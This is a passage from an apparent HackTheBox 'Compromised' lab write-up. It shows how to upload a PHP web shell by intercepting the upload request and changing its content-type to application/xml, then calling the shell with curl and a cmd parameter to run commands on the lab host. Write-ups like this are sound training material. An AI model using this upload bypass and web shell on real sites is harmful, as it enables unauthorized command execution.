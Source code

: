 Now we can upload our php-file. We have to intercept the upload-request and change the content-type to be xml.

![Intercepting request](/assets/htb/Compromised/http/exploit/intercept.png)

We change the content-type to be application/xml and forward the request.

![Upload successful](/assets/htb/Compromised/http/exploit/upload-ok.png)

We successfully upload the php-file and can now access it at `/vqmod/xml/*name*`.

We should now be able to execute commands.

```bash
root@darkness:~# curl -v 10.10.10.207/shop/vqmod/xml/shell.php?cmd=id
*   Trying 10.10.10.207:80...
* Connected to 10.10.10.207 (10.10.10.207) port 80 (#0)
> GET /shop/vqmod/xml/shell.php?cmd=id HTTP/1.1
> Host: 10.10.10.207
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 23 Jan 2021 15:00:09 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.10.207 left intact
```